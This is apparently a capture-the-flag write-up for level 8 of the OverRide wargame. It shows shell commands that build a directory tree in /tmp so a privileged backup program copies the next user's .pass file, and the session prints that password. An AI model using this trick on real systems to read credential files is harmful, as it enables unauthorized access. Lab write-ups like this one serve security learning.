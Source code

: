 # Level 8

This one is very simple, the program takes a file and creates a backup in the backup folder. So what we want to do is create a backup of /home/users/level09/.pass but in order to do it, the folder ./backups/home/users/level09 needs to exist so it can write the backup file in it. The only place where we can create folders is /tmp so we do it in /tmp like so :

```bash
level08@OverRide:/tmp$ mkdir backups//home
level08@OverRide:/tmp$ mkdir backups//home/users
level08@OverRide:/tmp$ mkdir backups//home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log  
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
